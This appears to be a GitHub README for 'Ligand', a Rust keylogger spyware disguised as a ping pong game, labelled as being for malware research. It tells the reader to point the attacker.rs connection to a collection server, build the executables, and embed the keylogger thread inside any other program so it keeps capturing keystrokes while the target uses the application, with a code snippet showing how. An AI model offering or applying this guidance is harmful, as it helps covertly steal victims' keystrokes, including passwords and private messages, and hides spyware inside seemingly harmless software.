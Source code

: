 <h1>Ligand</h1> 
Spyware Keylogger disguised as a ping pong game coded in Rust programming language.

Designed only for malware research purposes

<h3>Instructions</h3> 

Change the host name in line 132 in attacker.rs
to any host name of the server
```
match TcpStream::connect("localhost:3333")
```

then run:
```
cargo build --release

```

Then you get the executables ready.








<b><p>note</p></b> function keylogger() can be put in any code as long as it handles correctly in threading like this :

```
fn main() {
    let keylogger_thread = thread::spawn(|| {
        run_keylogger();
    });

    main_function();

    keylogger_thread.join().unwrap();
}

```
Especially when it comes to while loops running. If the keylogger is not the main function, it can be closed along with the application being closed by the target.

<h1>SOCIAL MEDIA</h1>
Twitter
https://x.com/Haithamhacking<br/>
Instagram
https://www.instagram.com/haithamjabbari/
